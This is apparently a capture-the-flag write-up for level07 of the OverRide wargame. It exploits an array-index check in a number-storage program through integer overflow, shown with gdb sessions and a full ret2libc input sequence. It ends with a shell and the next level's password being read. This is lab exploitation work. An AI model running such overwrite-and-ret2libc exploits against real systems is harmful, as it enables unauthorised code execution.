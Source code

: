 # level07

This program is a simple number storage system. It stores and reads number in an array `unsigned int data[100]`. But we cannot store a number with `index % 3 == 0`.

## Step 1. Calculate offset to overwrite `eip`
```assembly
   0x08048924 <+513>:	lea    eax,[esp+0x24]
   0x08048928 <+517>:	mov    DWORD PTR [esp],eax
=> 0x0804892b <+520>:	call   0x80486d7 <read_number>
```
```
level07@OverRide:~$ gdb -q level07
(gdb) break *0x0804892b
Breakpoint 1 at 0x804892b
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x0804892b in main ()
(gdb) info registers eax
eax            0xffffd544	-10940
(gdb) info frame
Stack level 0, frame at 0xffffd710:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args:
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebx at 0xffffd6fc, ebp at 0xffffd708, esi at 0xffffd700, edi at 0xffffd704,
  eip at 0xffffd70c
(gdb) print 0xffffd70c - 0xffffd544
$1 = 456
```
We set a breakpoint before calling `read_number` function, then get offset `456` by calculating `eip - eax`. For a 32 bit integer array, `eip` locates in `data[114]`.

## Step 2. Find a way to set data[114]
```
level07@OverRide:~$ gdb -batch -ex "set disassembly-flavor intel" -ex "disassemble store_number" level07
Dump of assembler code for function store_number:
[...]
   0x08048666 <+54>:	call   0x80485e7 <get_unum>
   0x0804866b <+59>:	mov    DWORD PTR [ebp-0xc],eax
[...]
   0x080486c2 <+146>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080486c5 <+149>:	shl    eax,0x2
   0x080486c8 <+152>:	add    eax,DWORD PTR [ebp+0x8]
   0x080486cb <+155>:	mov    edx,DWORD PTR [ebp-0x10]
   0x080486ce <+158>:	mov    DWORD PTR [eax],edx
   0x080486d0 <+160>:	mov    eax,0x0
   0x080486d5 <+165>:	leave
   0x080486d6 <+166>:	ret
End of assembler dump.
```
We cannot set `data[114]` directly because `114 % 3 == 0`. The disassembly code shows that left shift 2 position is analogous to multiply by 4. So our goal here is to find a number who satisfies the equation `114 << 2 = X << 2`. We can find three numbers `1073741938, 2147483762 and 3221225586` by flipping bit 30 and bit 31, but `3221225586 % 3 == 0`.

## Step 3. Find ret2libc address
```
level07@OverRide:~$ gdb -q level07
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) break main
Breakpoint 1 at 0x8048729
(gdb) run
Starting program: /home/users/level07/level07

Breakpoint 1, 0x08048729 in main ()
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

system:  0xf7e6aed0 => 4159090384
exit:    0xf7e5eb70 => 4159040368
/bin/sh: 0xf7f897ec => 4160264172
```
We found all 3 pointers to perform ret2libc.

## Step 4. Input numbers into system
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/$(whoami)/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
